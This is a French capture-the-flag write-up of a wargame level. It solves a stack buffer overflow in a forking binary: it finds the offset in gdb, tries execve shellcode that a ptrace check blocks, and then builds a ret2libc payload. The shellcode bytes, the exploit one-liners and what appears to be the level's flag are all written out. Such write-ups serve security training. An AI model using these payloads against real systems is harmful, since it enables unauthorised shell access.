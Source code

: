 # Level04

## **Objectif :**

En observant le `main`, on trouve un buffer de 32 `char` et un appel à `fgets`, il n'y a à priori rien d'autre d'exploitable.

Par conséquent, nous allons tenter de faire un **buffer overflow** afin de surcharger la sauvegarde de l'**EIP** présente dans la **stack frame** du `main`.

___
## **Tests :**

On cherche à trouver l'offset à l'aide de [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) :

* Avec un petit nombre de caractères le programme `exit` :

```
(gdb) r
Starting program: /home/users/level04/level04
Give me some shellcode, k
AAAAAAAAAAA
child is exiting...
[Inferior 1 (process 1999) exited normally]
```

* Avec un grand nombre de caractères on tombe dans une boucle infinie qui nous bloque :

```
(gdb) r
Starting program: /home/users/level04/level04
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

...
``` 

Cela vient du `fork`, en ajoutant `set follow-fork-mode child` dans **gdb** on peut maintenant retracer l'adresse de notre **segfault**, on trouve un offset de 156.

On exporte une **variable d'environnement** ou l'om stocke un **shellcode**.
On met l'adresse de notre **shellcode** à la suite de notre offset pour essayer de faire surcharger le `fgets`:

```bash
export SHELL_CODE=$(python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

```bash
cat <(python -c 'print("A"*156 + "\xce\xde\xff\xff")') - | ./level04
Give me some shellcode, k

... # ici on peut écrire sur stdin à l'infini
```

Sans succès.

On peut voir dans le `main` qu'il est vérifié qu'aucun `syscall execve` n'ait été produit à l'aide de `ptrace`, notre **shellcode** en utilise justement un.

De fait, on va chercher à utiliser un **shellcode** ne faisant pas appel à cette instruction, on va pour cela utiliser un [retour à la libc](https://beta.hackndo.com/retour-a-la-libc/).

___
## **Solution :**

Nous allons devoir rediriger notre programme vers la fonction `system` de la **libc** en lui passant **"/bin/sh"** en paramètre.

Pour fonctionner, notre stack devra être comme suit :

```
[buffer rempli jusqu'à l'offset][adresse de system][adresse de retour random][adresse de la chaine "/bin/sh"]
```

On trouve d'abord l'adresse de `system` :

```
(gdb) p system
$1 = {
    <text variable, no debug info>} 0xf7e6aed0 <system>
```

Puis l'adresse de **"/bin/sh"** :

```
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec

(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```

*NB : Il était aussi possible de stocker **"/bin/sh"** dans une **variable d'environnement**.*

On a maintenant tous les éléments pour mener notre exploitation à bien :

```bash
cat <(python -c 'print("A"*156 + "\xf7\xe6\xae\xd0"[::-1] + "\x12\x34\x56\x78" + "\xf7\xf8\x97\xec"[::-1])') - | ./level04
```

>> 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN